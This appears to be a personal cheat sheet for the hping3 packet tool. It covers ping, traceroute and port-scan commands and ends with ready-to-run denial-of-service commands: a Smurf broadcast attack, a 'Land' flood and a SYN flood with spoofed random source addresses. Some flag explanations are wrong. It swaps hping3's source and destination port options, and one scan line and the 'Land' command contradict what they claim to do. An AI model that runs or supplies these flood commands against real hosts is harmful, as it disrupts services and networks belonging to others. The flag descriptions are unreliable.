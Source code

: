 



* Description						    :net:anal:sec_do:
This command is used to analyse and assemble tcp/ip packets. hping3 is based on the ping command but is not only limited to the icmp echo requests.

** Possible use cases
+ Firewall testing
+ Advanced port scanning
+ Network testing, using different protocols, TOS, fragmentation
+ Manual path MTU discovery
+ Advanced traceroute
+ Remote OS fingerprinting
+ Remote uptime guessing
+ TCP/IP stacks auditing


* Usage

+ Normal ping test
> hping3 -1 <domain.com>
1 - protocol type (1 = icmp)

+ Traceroute example
> hping3 --traceroute -V -1 <domain.com>
V - verbose

+ Checking port
> hping3 -V -S -p <port\_number> -s <port\_number> <domain.com> 

+ Traceroute to a specific port
> hping3 --traceroute -V -S -p <port\_number> -s <port\_number>
<domain.com>

S - tcp flag (syn)
p - source port
s - destination port
+ Setting type of icmp

> hping3 -c 1 -V -1 -C 17 <domain.com>
c - count
C - icmptype

This is set for an icmp address mask request (type 17)

+ Fin Port Scan
> hping3 -c 1 -V -p 80 -s 5050 -F <domain.com>

+ Ack Port Scan
> hping3 -c 1 -V -p 80 -S 5050 -A <domain.com>

+ Smurf Attack
> hping3 -1 --flood -a <dest\_ip> <broadcast\_add>

+ Dos Land Attack
> hping3 -1 -V -c 10000000 -d 120 -S -w 64 -p 445 -s 445 --flood
--rand-source <dest\_ip>

flood - send packets as fast as possible
rand-source - randomise the source ip
d - data size
w - window size

+ Setting interface to use for Dos Rand Attack
> hping3 -S -p 80 -s 5050 --flood --interface <ethx> --rand-source
<dest\_ip>
